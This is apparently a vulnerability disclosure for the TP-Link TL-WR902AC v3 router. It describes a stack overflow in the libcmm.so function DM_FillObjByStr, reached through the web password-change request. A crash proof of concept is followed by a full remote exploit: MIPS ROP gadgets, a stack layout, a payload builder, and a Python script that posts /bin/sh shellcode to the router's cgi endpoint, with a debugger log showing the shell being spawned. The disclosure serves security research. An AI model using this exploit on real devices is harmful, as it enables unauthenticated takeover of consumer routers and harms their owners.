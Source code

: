 ## ***\*Affected version\****

![img](https://github.com/cilan2/iot/blob/main/img/wps3732.tmp.jpg) 

##  

## ***\*2. Vulnerability details\****

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()

 

![img](https://github.com/cilan2/iot/blob/main/img/wps3733.tmp.jpg) 

Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.

![img](https://github.com/cilan2/iot/blob/main/img/wps3734.tmp.jpg) 

 

Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.

![img](https://github.com/cilan2/iot/blob/main/img/wps3735.tmp.jpg) 

Figure 4 overflow position and crash position

![img](https://github.com/cilan2/iot/blob/main/img/wps3736.tmp.jpg) 

Figure 5 controllable copy length

![img](https://github.com/cilan2/iot/blob/main/img/wps3737.tmp.jpg) 

 

Figure 6 local variable overflow size

## 

## ***\*3. Recurring vulnerabilities and POC\****

In order to reproduce the vulnerability, the following steps can be followed:

\1. Use fat simulation firmware tl-wr902acv3_ US_ 0.9.1_ 0.2. bin

\2. Attack with the following POC attacks

import requests

 

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

 

payload = "a" * 2048

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

 

url = "http://192.168.0.1/cgi?8"

 

response = requests.post(url, data=formdata, headers=headers)

print response.text

 

The reproduction results are as follows:

![img](https://github.com/cilan2/iot/blob/main/img/wps3747.tmp.jpg) 

How to Exploit (exp)
In libuclibc-0.9.33.so, find the widget that can jump to the sleep function, and this widget can assign a value to the RA register, which is convenient to control the instruction that the return address points to.

# gadget 1
.text:000369E4                 move    $t9, $s0
.text:000369E8                 lw      $ra, 0x24($sp)
.text:000369EC                 lw      $s0, 0x20($sp)
.text:000369F0                 addiu   $a0, 0xC
.text:000369F4                 jr      $t9
.text:000369F8                 addiu   $sp, 0x28
Look for instructions that can store the stack address in the register. The stack address is the shellcode address.

# gadget 2
.text:00058894                 addiu   $a1, $sp, 0x34
.text:00058898                 move    $t9, $s0
.text:0005889C                 jalr    $t9
Jump to stack to execute code.

# gadget 3
.text:0003FD8C                 move    $t9, $a1
.text:0003FD90                 move    $a1, $a2
.text:0003FD94                 jr      $t9
Stack layout

┌─────────────┐◄───── sp
│             │
│             │
├─────────────┤◄───── sp + 0x68				# 
│     v26     │
├─────────────┤
│             │
│             │
│             │
│             │
│             │
│             │
├─────────────┤◄───── sp + 0x580			# 0x5880a764
│     v27     │
├─────────────┤◄───── sp + 0x584
│     v28     │
├─────────────┤◄───── sp + 0x588			# sleep
│     s0      │
├─────────────┤
│             │
│             │
├─────────────┤◄───── sp + 0x5ac			# gadget 1
│     ra      │
├─────────────┤◄───── sp1 = sp + 0x5b0
│             │
│             │
├─────────────┤◄───── sp1 + 0x20			# gadget 3
│     s0      │
├─────────────┤◄───── sp1 + 0x24			# gadget 2
│     ra      │
├─────────────┤◄───── sp2 = sp1 + 0x28
│             │
│             │
├─────────────┤◄───── sp2 + 0x34			# shellcode
│  shellcode  │
└─────────────┘
payload

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34
result

gef➤  c
Continuing.
process 444 is executing new program: /bin/busybox
Reading /bin/busybox from remote target...
Reading /bin/busybox from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
Reading /lib/ld-uClibc.so.0 from remote target...
exp

# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests
from pwn import *

headers = {
    "Host": "192.168.0.1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "text/plain",
    "Content-Length": "78",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/"
}


libcmm_base = 0x2b985000
file_base = 0x58800000
libuclibc_base = 0x2bcdf000

gadget_1 = 0x000369E4
gadget_2 = 0x00058894
gadget_3 = 0x0003FD8C

shellcode = "\x66\x06\x06\x24" + "\xff\xff\xd0\x04" + "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" + "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+ "\xab\x0f\x02\x24" + "\x0c\x01\x01\x01"+ "/bin/sh"

payload = b'a' * (0x580 - 0x68)
payload += p32(file_base + 0xa780)			# v27
payload += b'b' * 4				
payload += p32(libuclibc_base + 0x56D20)	# s0
payload += b'c' * (0x5ac - 0x588 - 0x4)
payload += p32(libuclibc_base + gadget_1)	# ra = gadget

payload += b'd' * 0x20
payload += p32(libuclibc_base + gadget_3)
payload += p32(libuclibc_base + gadget_2)
payload += b'e' * 0x34

payload += shellcode


str_payload = ""

for p in payload:
	str_payload += chr(p)

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname=admin\r\noldPwd=admin\r\npwd={}\r\n".format(str_payload)

url = "http://192.168.0.1/cgi?8"
response = requests.post(url, data=formdata, headers=headers)
print(formdata)
print(response.text)
